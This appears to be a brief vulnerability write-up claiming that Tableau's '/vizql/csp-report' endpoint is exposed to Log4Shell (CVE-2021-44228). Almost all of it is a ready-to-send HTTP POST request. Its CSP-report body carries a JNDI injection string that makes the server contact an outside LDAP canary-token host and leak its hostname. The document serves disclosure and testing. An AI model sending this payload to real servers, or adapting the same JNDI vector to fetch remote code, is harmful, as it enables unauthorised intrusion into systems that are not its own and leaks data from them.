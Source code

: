  ## Tableau CSP in the endpoint "/vizql/csp-report/" are vulnerable to Log4Shell ( CVE-2021-44228). 
 The response may depend on the targets
 
 ```
POST /vizql/csp-report HTTP/2
Host: host.local
Content-Type: application/csp-report
Content-Length: 655
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36
 
{"csp-report":{"document-uri":"https://<hostname>/","referrer":"","violated-directive":"script-src","effective-directive":"script-src","original-policy":"connect-src * https://*.*.*.com https://api.*.com; default-src blob:; font-src * data:; frame-src * data:; img-src * data: blob:; object-src data:; report-uri /vizql/csp-report; script-src * blob:; style-src * 'unsafe-inline'","disposition":"${jndi:ldap://x${hostname}.L4J.blah.blah.canarytokens.com/a}","blocked-uri":"eval","line-number":"5637","column-number":"25","source-file":"https://*.*.com/angular.min.js","status-code":"200","script-sample":""}}
 ```
![Screenshot from 2022-12-31 12-09-56](https://user-images.githubusercontent.com/91581651/210127833-2c1cea7b-5dfc-4fc2-a710-c53bc4f5aa93.png)
